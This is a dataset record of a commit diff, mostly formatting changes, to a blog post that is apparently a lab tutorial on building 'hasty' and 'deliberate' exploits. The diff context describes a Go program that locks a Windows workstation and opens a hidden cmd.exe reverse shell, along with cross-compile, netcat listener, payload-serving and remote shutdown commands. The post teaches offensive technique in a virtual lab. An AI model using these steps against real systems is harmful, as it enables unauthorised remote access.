

Before and after one commit to cyberphor/blog, a Jekyll site: the page built from _posts/2019-11-30-hasty-versus-deliberate-exploits.md, in a window 1280 px wide and 1400 px high, scrolled down 2253 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Update 2019-11-30-hasty-versus-deliberate-exploits.md

````diff
--- a/_posts/2019-11-30-hasty-versus-deliberate-exploits.md
+++ b/_posts/2019-11-30-hasty-versus-deliberate-exploits.md
@@ -22,13 +22,13 @@ An exploit is “the vehicle used to breach a system.” Penetration testing inv
 I used VirtualBox to deploy two Virtual Machines (VMs) for this lab. The first VM is running Kali Linux while the second is running Microsoft Windows 10. On my Kali VM, I organized my work across three terminals: one to listen for inbound connections, another to develop/tinker with exploits, and a third to spawn a web server. Also, since Go does not natively ship with Kali Linux, you must execute the command sentence below in order to download, install, and use it.
 
 ## How to Install Go on Kali Linux
-```
-apt install golang
+```bash
+sudo apt install golang
 ```
 Lastly, I highly recommend creating and using a temporary directory as your “workbench.” It’ll help keep things tidy if you chose to follow along.
 
 ## How to create and use a temporary directory
-```
+```bash
 mkdir workbench
 cd workbench
 ```
@@ -64,15 +64,15 @@ msfvenom \
 ## How to Write a Deliberate Exploit in Go
 
 Go is a general-purpose programming language developed by Google. It’s easy to read, has an “intelligent” cross-compiler (gives helpful warning/error messages as to why your code sucks), and doesn’t use a preprocessor (something that could influence how your code runs). To begin developing Go code, open a text-editor in a terminal on your Kali VM (I like to use Vim).
-```
+```bash
 # how to open a text-editor in a terminal
 vim hackmeslow.go
 ```
-Next, mirror the code below. Our source file begins by telling the Go compiler we want a self-contained program, or a program that carries everything it needs to execute (a.k.a “statically linked,” read this for more info). We then import packages that enable our program to communicate on the network and control the OS. Within our main() function, we have three tasks we’re aiming to accomplish: lock the victim’s workstation, create a network socket, and send a Reverse Shell across it. A Reverse Shell “forces an infected machine to call the attacker and offer-up shell access to it’s operating system.” In contrast, traditional shell access requires the attacker to call the would-be infected machine and authenticate with valid credentials. A Reverse Shell is also helpful in bypassing inbound firewall rules.
+Next, mirror the code below. Our source file begins by telling the Go compiler we want a self-contained program, or a program that carries everything it needs to execute (a.k.a “statically linked,” read this for more info). We then import packages that enable our program to communicate on the network and control the OS. Within our `main()` function, we have three tasks we’re aiming to accomplish: lock the victim’s workstation, create a network socket, and send a Reverse Shell across it. A Reverse Shell “forces an infected machine to call the attacker and offer-up shell access to it’s operating system.” In contrast, traditional shell access requires the attacker to call the would-be infected machine and authenticate with valid credentials. A Reverse Shell is also helpful in bypassing inbound firewall rules.
 
-To achieve our objectives, we select rundll32.exe and user32.dll, LockWorkStation as the first command sentence we want executed. For the curious, rundll32.exe is a Microsoft Windows program used for loading software libraries (like user32.dll) and accessing functions within them (such as LockWorkStation). We then leverage a Go function called net.Dial() to create a network socket, passing any errors it generates to the _ variable. This variable is also known as the “Blank Identifer” and helps satisfy some of the compiler’s pre-compilation checks. Next, we identify cmd.exe as the second command we wanted executed. After enabling the HideWindow attribute, we then point all input, output, and error “pipes” from cmd.exe to our socket. Finally, we ask for our payloads (locking the workstation and providing us remote access) to be ran.
+To achieve our objectives, we select `rundll32.exe` and `user32.dll`, LockWorkStation as the first command sentence we want executed. For the curious, `rundll32.exe` is a Microsoft Windows program used for loading software libraries (like `user32.dll`) and accessing functions within them (such as LockWorkStation). We then leverage a Go function called `net.Dial()` to create a network socket, passing any errors it generates to the `_` variable. This variable is also known as the “Blank Identifer” and helps satisfy some of the compiler’s pre-compilation checks. Next, we identify cmd.exe as the second command we wanted executed. After enabling the HideWindow attribute, we then point all input, output, and error “pipes” from cmd.exe to our socket. Finally, we ask for our payloads (locking the workstation and providing us remote access) to be ran.
 
-NOTE: You can use any name you want for your variables as long as you’re consistent throughout your code (i.e., cloak, dagger, and socket).
+**NOTE:** You can use any name you want for your variables as long as you’re consistent throughout your code (i.e., `cloak`, `dagger`, and `socket`).
 ```go
 package main
 
@@ -104,6 +104,7 @@ Execute the command sentence below to compile the source code of our second expl
 # how to cross-compile Go source code
 env GOOS=windows GOARCH=386 go build -ldflags -H=windowsgui hackmeslow.go
 ```
+
 ![hackmeslow.gif]({{ site.url }}{{ site.baseurl }}/assets/Hasty/hackmeslow.gif)
 
 ## How to Keep a Netcat Listener Alive Forever
@@ -112,6 +113,7 @@ Netcat is a tool for reading and writing to network sockets. We’re going to ne
 # how to keep a Netcat listener alive forever
 while true; do nc -nvlp 4444; done
 ```
+
 ![Netcat.gif]({{ site.url }}{{ site.baseurl }}/assets/Hasty/Netcat.gif)
 
 ## How to Serve Files with a Python Web Server
@@ -133,10 +135,12 @@ Finally, execute the command sentence below in your third terminal window.
 # how to serve files with a Python web server
 python -m SimpleHTTPServer 666
 ```
+
 ![PythonWebServer.gif]({{ site.url }}{{ site.baseurl }}/assets/Hasty/PythonWebServer.gif)
 
 ## How to Test Our Exploits in a Virtual Lab
 We can now begin simulating user activity. Open a web browser on your Microsoft Windows VM and navigate to your Python web server. For example, I should use `http://192.168.1.8:666` as my destination URL. Next, click-on and try to run `hackmefast.exe`, the first exploit we created. Then, do the same for `hackmeslow.exe`, our second exploit. Once the Microsoft Windows VM locks out, check the terminal window hosting your Netcat listener. If you see a Microsoft Windows inteface, type `whoami` followed by `shutdown /s /t 000 /f` (<font color='red'>WARNING:</font> this will power-down your Microsoft Windows VM).
+
 ![hackmeslow_success.gif]({{ site.url }}{{ site.baseurl }}/assets/Hasty/hackmeslow_success.gif)
 
 ## Summary
````
